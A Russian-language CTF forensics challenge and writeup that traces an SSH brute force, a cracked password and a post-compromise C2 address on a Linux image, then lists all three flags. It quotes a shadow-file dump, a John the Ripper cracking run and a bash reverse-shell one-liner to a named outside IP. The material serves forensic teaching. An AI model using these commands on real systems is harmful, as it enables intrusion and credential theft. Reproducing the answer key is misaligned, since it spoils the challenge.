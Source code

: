 # Linux Forensic Quest. Uncovering the Intrusion

## Участникам

### Link file

[Linux Forensic Quest. Uncovering the Intrusion](https://drive.google.com/file/d/1WsTlMyxUZhGspobiDBFh7NgmBtkLZiNY/view?usp=share_link)

### Легенда

Вам необходимо провести расследование, связанное с компрометацией Linux-системы нашего сотрудника. Ваша задача - проанализировать криминалистический образ системы  и выявить все возможные артефакты, связанные с компрометацией.

### Задача

1. Восстановить IP-адрес хоста, с которого был получен первоначальный доступ к скомрометированному хосту.  Формат ответа RDGCTF{ipaddress}
2. Восстановить имя учетной записи и пароль в явном виде от скомпрометированного пользователя. Формат ответа RDGCTF{username_password}
3. Восстановить IP-адрес центра удаленного управления (C2), используемый злоумышленником после компрометации хоста. Формат ответа RDGCTF{ipaddress}

### Hints
- Используй программные решения для анализа криминалистических образов
- (Flag 2) Не забудь проверить журналы операционной системы и программного обеспечения
- (Flag 3) История все помнит

## Writeup

Нам дан образ скомпрометированной системы в формате vmdk. Воспользуемся одним из криминалистических инструментов для анализа образов ([Autopsy](https://www.autopsy.com/), [FTK Imager](https://www.exterro.com/ftk-imager) и др.). Мой выбор пал на FTK Imager. После добавления образа в дерево доказательств видим, что один из разделов отформатирован в файловую систему EXT4. Данный раздел имеет специфичную для Linux-систем файловую иерархию. Приступим к решению задач.

**Восстановить IP-адрес хоста, с которого был получен первоначальный доступ к скомрометированному хосту**. 
В ходе анализа не удается выявить свидетельств о наличии активных сервисов, функционирующих на узле, за исключением сервиса SSH. Данные сервис используется для организации удаленного доступа к системе. 
Проведем анализ содержимого журнала */var/log/auth.log*, где агрегируются события, связанные с попытками аутентификации в систему. Фиксируем там события, указывающие на попытки перебора учетных данных пользователя *petrov*. Брутфорс продолжался с 25.03.2023 21:57:21 по 25.03.2023 22:00:29. Уже в 22:00:30 пароль был успешно подобран.
```bash
Mar 25 22:00:24 workstation sshd[1657]: Failed password for petrov from 192.168.5.142 port 43174 ssh2
Mar 25 22:00:27 workstation sshd[1654]: Failed password for petrov from 192.168.5.142 port 43156 ssh2
Mar 25 22:00:27 workstation sshd[1656]: Failed password for petrov from 192.168.5.142 port 43170 ssh2
Mar 25 22:00:27 workstation sshd[1659]: Failed password for petrov from 192.168.5.142 port 43182 ssh2
Mar 25 22:00:27 workstation sshd[1657]: Failed password for petrov from 192.168.5.142 port 43174 ssh2
Mar 25 22:00:29 workstation sshd[1654]: Failed password for petrov from 192.168.5.142 port 43156 ssh2
Mar 25 22:00:29 workstation sshd[1656]: Failed password for petrov from 192.168.5.142 port 43170 ssh2
Mar 25 22:00:29 workstation sshd[1657]: Failed password for petrov from 192.168.5.142 port 43174 ssh2
Mar 25 22:00:29 workstation sshd[1659]: Failed password for petrov from 192.168.5.142 port 43182 ssh2
Mar 25 22:00:30 workstation sshd[1654]: Accepted password for petrov from 192.168.5.142 port 43156 ssh2
```
Как мы можем заметить, источником воздействий выступал узел с IP-адресом **192.168.5.142**.

**Восстановить имя учетной записи и пароль в явном виде от скомпрометированного пользователя.** 
Имя учетной записи мы уже выяснили на прошлом шаге. Давайте проверим стойкость пароля. Восстанавливаем файл */etc/shadow*, содержащий хеш-суммы пользовательских паролей. Для восставления пароля в открытом виде воспользуемся инструментом [john](https://www.openwall.com/john/doc/) 
```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt shadow
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty           (petrov)     
1g 0:00:00:00 DONE (2023-03-26 06:39) 8.333g/s 2133p/s 2133c/s 2133C/s 123456..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Достаточно быстро получаем пароль - qwerty. Флаг RDGCTF{petrov_qwerty}.

**Восстановить IP-адрес центра удаленного управления (C2), используемый злоумышленником после компрометации хоста.** 
Для начала необходимо понять, что делал злоумышленник после получения удаленного доступа к системе. Обратимся к истории интерпретатора bash для пользователя petrov (*/home/petrov/.bash_history*):

```bash
sudo -i
ip a
ls -lh
group
groups 
sudo -i
shutdown
shutdown now
sudo shutdown now
```

Обращаем внимание на попытки перейти в окружении супер-пользователя с помощью команды *sudo -i*. Попытка была успешной. Это подтвержается членством petrov в группе adm (/etc/groups, /etc/sudoers) и все тем же auth.log:
```bash
...
Mar 25 22:10:11 workstation sudo:   petrov : TTY=pts/0 ; PWD=/root ; USER=root ; COMMAND=/bin/bash
...
```
У супер-пользователя тоже есть своя история интерпретатора bash (/root/.bash_history):
```bash
exit
ls
exit
cat /etc/passwd
cat /etc/shadow
bash -i >& /dev/tcp/130.193.48.228/1337 0>&1
exit
```
Видим, что злоумышленник вывел содержимое файлов passwd и shadow, а затем предпринял попытку установления reverse shell с помощью встроенных возможностей операционной системы. Адрес C2 злоумышленника - **130.193.48.228**.

### Flags

- (Flag 1) RDGCTF{192.168.5.142}
- (Flag 2) RDGCTF{petrov_qwerty}
- (Flag 3) RDGCTF{130.193.48.228}
